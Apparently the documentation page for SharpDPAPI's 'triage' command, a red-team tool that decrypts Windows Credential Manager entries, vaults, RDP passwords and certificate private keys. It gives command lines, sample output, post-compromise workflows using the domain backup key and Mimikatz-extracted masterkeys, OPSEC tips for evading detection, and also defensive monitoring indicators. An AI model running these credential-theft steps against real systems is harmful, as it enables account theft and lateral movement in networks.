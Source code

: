 ```yaml
---
title: 'triage'
description: 'Run all user DPAPI extraction commands'
icon: 'list-check'
---
```


## Overview

The **triage** command is a comprehensive wrapper that executes all user DPAPI extraction commands in a single run. It automatically triages credentials, vaults, RDG files, and certificates for all accessible users on the system.

<Tip>
  This is the recommended starting point for user DPAPI triage. It runs the equivalent of `credentials`, `vaults`, `rdg`, and `certificates` commands.
</Tip>

## Basic Usage

```bash
# Triage with domain backup key
SharpDPAPI.exe triage /pvk:key.pvk

# Triage with user password
SharpDPAPI.exe triage /password:Password123!

# Triage with masterkey mappings
SharpDPAPI.exe triage {GUID1}:SHA1 {GUID2}:SHA1

# Remote system triage
SharpDPAPI.exe triage /pvk:key.pvk /server:workstation.domain.com
```

## Command Arguments

### Decryption Methods

<Tabs>
  <Tab title="Domain Backup Key">
    ```bash
    # Base64-encoded key
    SharpDPAPI.exe triage /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...

    # Key file
    SharpDPAPI.exe triage /pvk:key.pvk
    ```
  </Tab>

  <Tab title="User Credentials">
    ```bash
    # Plaintext password
    SharpDPAPI.exe triage /password:Password123!

    # NTLM hash
    SharpDPAPI.exe triage /ntlm:8846F7EAEE8FB117AD06BDD830B7586C

    # DPAPI credkey
    SharpDPAPI.exe triage /credkey:abc123...
    ```
  </Tab>

  <Tab title="Masterkey Mappings">
    ```bash
    # Inline masterkeys
    SharpDPAPI.exe triage {GUID1}:SHA1 {GUID2}:SHA1

    # Masterkey file
    SharpDPAPI.exe triage /mkfile:masterkeys.txt
    ```
  </Tab>

  <Tab title="RPC Decryption">
    ```bash
    # Decrypt via domain controller
    SharpDPAPI.exe triage /rpc
    ```
  </Tab>
</Tabs>

### Targeting Options

| Argument | Description |
|----------|-------------|
| `/server:SERVER` | Triage remote server (requires admin access and pvk/password) |

<Note>
  When using `/server`, you must also supply either `/pvk` or `/password` for decryption.
</Note>

## What Gets Triaged

The triage command executes the following operations:

<Steps>
  <Step title="Credential Manager Credentials">
    Searches `%LOCALAPPDATA%\Microsoft\Credentials\` for all users and decrypts credential files
  </Step>

  <Step title="Windows Vaults">
    Searches `%LOCALAPPDATA%\Microsoft\Vault\` folders and decrypts vault data (browser passwords, etc.)
  </Step>

  <Step title="RDP Passwords">
    Searches for RDCMan.settings and .rdg files containing saved RDP connection passwords
  </Step>

  <Step title="User Certificates">
    Searches `%APPDATA%\Microsoft\Crypto\RSA\` for user certificate private keys
  </Step>
</Steps>

## Execution Context

<Tabs>
  <Tab title="Elevated">
    When run with administrative privileges:
    - Triages **all users** on the system
    - Accesses all user profile directories
    - Maximum data collection
  </Tab>

  <Tab title="Unelevated">
    When run without elevation:
    - Only triages **current user**
    - Limited to current user's profile
    - More OPSEC-friendly
  </Tab>
</Tabs>

## Example Output

```
[*] Action: User DPAPI Credential Triage

[*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

[*] User master key cache:

{42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
{feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903a9b61c42e6c9ab0f4

[*] Triaging Credentials for ALL users

Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

  CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB
    guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
    description      : Local Credential Data
    LastWritten      : 1/22/2019 2:44:40 AM
    TargetName       : Domain:target=TERMSRV/10.4.10.101
    UserName         : DOMAIN\user
    Credential       : Password!

[*] Triaging Vaults for ALL users

[*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials
    LastWritten      : 10/12/2018 12:10:42 PM
    FriendlyName     : Internet Explorer
    Identity         : admin
    Resource         : https://10.0.0.1/
    Authenticator    : Password!

[*] Triaging RDCMan Settings Files for ALL users

[*] Triaging User Certificates
```

## Common Scenarios

<AccordionGroup>
  <Accordion title="Post-Domain Compromise">
    After obtaining domain admin and retrieving the backup key:

    ```bash
    # 1. Get backup key
    SharpDPAPI.exe backupkey /file:key.pvk

    # 2. Triage local system
    SharpDPAPI.exe triage /pvk:key.pvk

    # 3. Triage multiple remote systems
    SharpDPAPI.exe triage /pvk:key.pvk /server:ws01.domain.com
    SharpDPAPI.exe triage /pvk:key.pvk /server:ws02.domain.com
    SharpDPAPI.exe triage /pvk:key.pvk /server:dc.domain.com
    ```
  </Accordion>

  <Accordion title="Local Admin Compromise">
    Using Mimikatz-extracted masterkeys:

    ```bash
    # 1. Extract masterkeys with Mimikatz
    # mimikatz# privilege::debug
    # mimikatz# sekurlsa::dpapi

    # 2. Run triage with extracted keys
    SharpDPAPI.exe triage {8abc35b1-b718-4a86-9781-7fd7f37101dd}:ae349cdd... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad...
    ```
  </Accordion>

  <Accordion title="Known User Credentials">
    When you have a specific user's credentials:

    ```bash
    # Using password
    SharpDPAPI.exe triage /password:SecurePassword123

    # Using NTLM hash
    SharpDPAPI.exe triage /ntlm:8846F7EAEE8FB117AD06BDD830B7586C
    ```
  </Accordion>
</AccordionGroup>

## Detection Considerations

<Warning>
  The triage command generates significant host activity that can be detected.
</Warning>

**Detection Indicators:**
- Bulk access to multiple users' DPAPI directories
- Reading of Credential Manager files
- Access to Vault folders across user profiles
- Enumeration of certificate stores
- Potential LSASS access (if masterkeys are extracted)

**Defensive Monitoring:**
- Monitor bulk access to `%LOCALAPPDATA%\Microsoft\Credentials\`
- Alert on access to `%LOCALAPPDATA%\Microsoft\Vault\`
- Track certificate private key file access
- Monitor for process accessing multiple user profiles
- Detect non-standard processes reading DPAPI protected data

## Related Commands

<CardGroup cols={2}>
  <Card title="credentials" icon="id-card" href="/ghostpack-docs/SharpDPAPI-mdx/commands/credentials">
    Decrypt only Credential Manager credentials
  </Card>
  <Card title="vaults" icon="vault" href="/ghostpack-docs/SharpDPAPI-mdx/commands/vaults">
    Decrypt only Windows Vault data
  </Card>
  <Card title="rdg" icon="server" href="/ghostpack-docs/SharpDPAPI-mdx/commands/rdg">
    Decrypt only RDP connection passwords
  </Card>
  <Card title="certificates" icon="certificate" href="/ghostpack-docs/SharpDPAPI-mdx/commands/certificates">
    Decrypt only certificate private keys
  </Card>
  <Card title="machinetriage" icon="server" href="/ghostpack-docs/SharpDPAPI-mdx/commands/machinetriage">
    Triage machine/SYSTEM DPAPI data
  </Card>
  <Card title="backupkey" icon="download" href="/ghostpack-docs/SharpDPAPI-mdx/commands/backupkey">
    Retrieve domain DPAPI backup key
  </Card>
</CardGroup>

## Tips

<Accordion title="Performance Optimization">
  - Use `/mkfile` instead of inline masterkeys for better performance
  - Target specific users when possible instead of triaging all users
  - Use individual commands (credentials, vaults) if you only need specific data types
</Accordion>

<Accordion title="OPSEC Improvements">
  - Run without elevation to only triage current user (less noisy)
  - Use `/unprotect` for RDG files when possible (no masterkeys needed)
  - Target specific remote systems instead of broad sweeps
  - Redirect output to file with `/consoleoutfile` to minimize artifacts
</Accordion>

<Accordion title="Troubleshooting">
  **No data decrypted:**
  - Verify decryption method is correct (pvk, password, masterkeys)
  - Check if DPAPI data actually exists for target users
  - Ensure proper permissions to read user profile directories

  **Access denied errors:**
  - Elevate to Administrator for multi-user triage
  - Verify remote admin access for `/server` operations
  - Check if target files are locked or in use
</Accordion>
